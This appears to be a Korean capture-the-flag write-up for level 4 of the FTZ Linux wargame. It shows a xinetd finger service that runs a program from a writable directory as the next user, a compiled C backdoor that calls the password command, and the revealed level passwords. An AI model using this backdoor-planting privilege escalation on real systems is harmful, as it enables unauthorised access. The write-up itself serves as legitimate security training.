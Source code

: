 ```yaml
---
title: FTZ 4번 Write-up
date: 2017-8-21 0:12:00
categories: FTZ
---
```


## FTZ 4번

비밀번호는 suck my brain이다.

    [level4@ftz level4]$ ls
    hint  public_html  tmp
    [level4@ftz level4]$ cat hint
    
    
    누군가 /etc/xinetd.d/에 백도어를 심어놓았다.!
    
    
    [level4@ftz level4]$ cd /etc/xinetd.d/
    [level4@ftz xinetd.d]$ ls -l backdoor
    -r--r--r--    1 root     level4        171 Sep 10  2011 backdoor

백도어가 있다고 하는데, 할당된 권한은 읽기권한밖에 없다.

    [level4@ftz xinetd.d]$ cat backdoor
    service finger
    {
            disable = no
            flags           = REUSE
            socket_type     = stream
            wait            = no
            user            = level5
            server          = /home/level4/tmp/backdoor
            log_on_failure  += USERID
    }

finger 명령을 통해서 플래그를 획득할 수 있다고 합니다. user는 `level5`, server는 `/home/level4/tmp/backdoor` 에 있다고 합니다.
즉, level5의 권한으로 `/home/level4/tmp/backdoor` 에 있는 파일을 실행해주는 것입니다.

    [level4@ftz tmp]$ ls -al
    total 8
    drwxrwxr-x    2 root     level4       4096 Aug 20 10:42 .
    drwxr-xr-x    4 root     level4       4096 May  7  2002 ..

하지만 `/home/level4/tmp`에는 아무것도 없습니다.
직접 만들어줘야 하는 듯 합니다.

    #include<stdio.h>
    #include<stdlib.h>
    int main() {
            system("my-pass");
    return 0;
    }

vi로 backdoor.c라는 소스를 만들고, gcc로 컴파일 하였습니다.

    [level4@ftz tmp]$ gcc -o backdoor backdoor.c
    [level4@ftz tmp]$ ls -l
    total 16
    -rw-rw-r--    1 level4   level4         82 Aug 20 13:38 backdoor.c
    -rwxrwxr-x    1 level4   level4      11541 Aug 20 13:44 backdoor
    [level4@ftz tmp]$ finger @localhost
    ^[[H^[[J
    Level5 Password is "what is your name?".

